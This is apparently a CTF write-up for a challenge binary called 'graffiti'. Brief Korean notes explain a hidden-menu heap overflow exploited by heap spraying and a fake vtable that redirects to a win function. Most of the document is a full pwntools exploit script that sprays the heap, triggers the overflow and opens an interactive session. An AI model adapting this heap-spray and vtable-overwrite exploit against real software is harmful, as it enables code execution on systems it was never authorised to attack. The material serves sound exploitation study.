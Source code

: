 # Graffiti

# Usage

# Concept

- BOF, vtable overwrite, heap spray

# Writeup

## 취약점
힙 스프레이로 주소 예측 + fake vtable 컨셉이다.
1337을 입력하면 나오는 히든메뉴에서 취약점이 발생하여 힙 오버플로우가 발생한다.
이를 이용하여 다른 객체나 힙 메타데이터를 덮을 수 있다. \
leak 이 불가능하기 때문에 해당 문제는 힙 스프레이를 이용해서 vtable 을 덮어야한다. \
문제에서 별도의 타임아웃을 두고 있지 않기 때문에 많은 객체 할당을 통해서 주소를 예측한다. \
win 함수가 문제에 있기 때문에 fake vtable 을 win 함수로 구성하면 익스플로잇이 가능하다. 


 ## Exploit 
 ```py

from pwn import*
import re

def get_heap_address(pid):
    with open(f'/proc/{pid}/maps', 'r') as f:
        maps = f.read()
    
    # 힙 영역 찾기
    heap_match = re.search(r'([0-9a-f]+)-([0-9a-f]+).*\[heap\]', maps)
    if heap_match:
        heap_start = int(heap_match.group(1), 16)
        heap_end = int(heap_match.group(2), 16)
        return heap_start, heap_end
    return None, None

def normal(content):
    p.sendlineafter(b">", b"1")
    p.sendafter(b">", content)

def blue(content):
    p.sendlineafter(b">", b"2")
    p.sendafter(b">", content)

def red(content):
    p.sendlineafter(b">", b"3")
    p.sendafter(b">", content)

import time
while True:
    try:
        p = process("./graffiti")
        #p = remote("192.168.10.213", 15252)
        win = 0x40147c
        heap_addr = 0x2839013800
        #heap_addr = 0x41e40800
        fake_vtable = p64(win) * 8
        for i in range(4096 * 128):
            print(i)
            blue(fake_vtable)
        p.sendline(b'1337')
        p.sendafter(b'labeling', b'12')
        p.send(p64(heap_addr) * 100)
        '''
        # pause 직전에 힙 주소 읽기
        pid = p.pid
        heap_start, heap_end = get_heap_address(pid)
        if heap_start and heap_end:
            log.info(f"Process PID: {pid}")
            log.info(f"Heap start address: 0x{heap_start:x}")
            log.info(f"Heap end address: 0x{heap_end:x}")
            log.info(f"Heap size: 0x{heap_end - heap_start:x}")
            print(f"\n=== HEAP INFO ===")
            print(f"PID: {pid}")
            print(f"Heap Start: 0x{heap_start:x}")
            print(f"Heap End: 0x{heap_end:x}")
            print(f"Heap Size: 0x{heap_end - heap_start:x}")
            print(f"================\n")
        else:
            log.warning("힙 주소를 찾을 수 없습니다.")
        '''    
        pause()
        p.sendline(b'4')
        p.interactive()
    except Exception as e:
        log.error(f"Error: {e}")
        if 'p' in locals():
            p.close()
        continue

 ```